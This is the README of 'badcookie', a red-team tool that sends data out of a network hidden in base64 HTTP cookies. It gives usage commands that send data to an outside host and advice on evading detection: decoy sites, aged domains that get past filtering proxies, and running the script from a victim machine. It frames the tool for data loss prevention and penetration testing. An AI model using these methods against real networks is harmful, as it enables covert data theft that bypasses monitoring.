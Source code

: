 # Requirements
Python 2.7

### Libraries
* Requests

# Description
Badcookie exfiltrates data via base64 encoded HTTP cookies.

# Some use cases
* The script can be used for testing the effectiveness of data loss prevention systems.
* Outbound network traffic monitoring systems.
* Red Team / Blue team exercises e.g. see if the blue team can detect data exfiltraion.
* Penetration testing activities

#Things to keep in mind
* The script transmits data via http not https
* Base64 encoded data can be easily decoded
* Be mindful of the cookie size when transmitting data

#Usage
`badcookie.py <destination_host> <exfiltrated_data>`

`Example(1): badcookie.py 10.0.0.2 "very important data"`

`Example(2): badcookie.py www.secretsite.com "very important data"`

Use quotes if you plan to transmit data with whitespace


#Setting up the data exfiltration process

* To make the network traffic look convincing setup a site with a proper domain name. It can be a news, blog or any other site, so when you exfiltrate data the network traffic will look like normal web traffic going to a legitimate site. (atleast this is what we are trying to accomplish).
* Fill the site with real looking content.
* If you are testing systems where there is a web filtering proxy involved, try and use a  domain name which is more than a year old as web filtering proxies block new domains. In either case using an aged domain name will be beneficial.
* Avoid sending data using IP addresses.
* Enable  logging of http cookies in Apache web server ( you can use any server you like). The sample config file  [000-default.conf](https://github.com/akbarq/badcookie/tree/master/apache_conf) can be used to enable cookie logging. 
* Place the **000-default.conf** file in **/etc/apache2/sites-enabled/** and restart Apache. You should now see a file called **“cookies.log”** in **/var/log/apache2**.
* Execute the badcookie script from the victim machine / network.
* After executing the script you should see the following log entry in cookies.log file. The log file shows the transmitted base64 cookie.

`10.0.0.2 - - [13/Jun/2015:18:48:17 -0500] "GET / HTTP/1.1" 200 3256 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64; Trident/7.0; MDDCJS; :11.0) like Gecko" "dGVzdGluZw=="`

* You can now decode the base64 encoded data.

Please note that the above process is just a suggestion, you can setup the exfiltration process anyway you like.


